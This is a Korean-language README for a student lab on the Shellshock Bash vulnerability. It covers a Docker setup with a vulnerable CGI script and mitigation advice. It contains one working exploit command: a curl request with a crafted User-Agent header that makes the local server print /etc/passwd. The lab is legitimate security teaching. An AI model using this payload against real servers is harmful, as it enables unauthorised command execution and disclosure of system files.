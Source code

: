 # Shellshock (CVE-2014-6271) 취약점 실습

화이트햇 스쿨 3기 - 박상경 (@bsk2002)

## 요약
Shellshock은 Bash의 환경 변수 처리 과정에서 발생하는 취약점입니다.
특수하게 조작된 환경 변수를 통해 Bash 명령어가 실행될 수 있어, 원격 코드 실행(RCE)로 이어질 수 있습니다.

웹 서버가 CGI 스크립트를 통해 Bash를 호출하는 경우, 공격자가 HTTP 헤더를 조작하여 서버에서 임의 명령어를 실행할 수 있습니다.

## 환경 구성 및 실행
- `docker-compose.yml`과 `Dockerfile`을 작성하여 직접 환경을 구성했습니다.
- `docker-compose up -d` 명령어로 컨테이너를 빌드 및 실행합니다.
- 브라우저에서 `http://localhost:8080/cgi-bin/victim.cgi` 접속 시 `Vulnerable CGI script` 문구가 출력되면 정상적으로 환경이 구축된 것입니다.
- 취약점 테스트:
  `curl -A '() { :;}; echo; echo; /bin/cat /etc/passwd' http://localhost:8080/cgi-bin/victim.cgi`
  위 명령어를 실행했을 때 /etc/passwd 파일 내용이 출력되면 취약점이 존재함을 확인할 수 있습니다.
※ 별도의 poc.py 파일은 필요하지 않습니다. curl 명령어만으로 공격이 가능합니다.

## 결과

- `Vulnerable CGI script` 문구가 정상 출력되었습니다.
- 이후 공격용 curl 명령어를 통해 서버의 `/etc/passwd` 파일을 읽을 수 있었습니다.

## 정리
Shellshock 취약점은 Bash를 사용하는 서버에서 환경 변수만 조작해도 코드 실행이 가능한 심각한 문제입니다.
공격자는 시스템 명령어를 자유롭게 실행할 수 있어 서버 전체를 장악할 수 있습니다.

대응 방안:
- Bash를 최신 버전으로 패치합니다.
- 외부 입력을 직접 Bash로 넘기는 경우를 최대한 피합니다.
- 필요 없는 CGI 기능은 비활성화합니다.
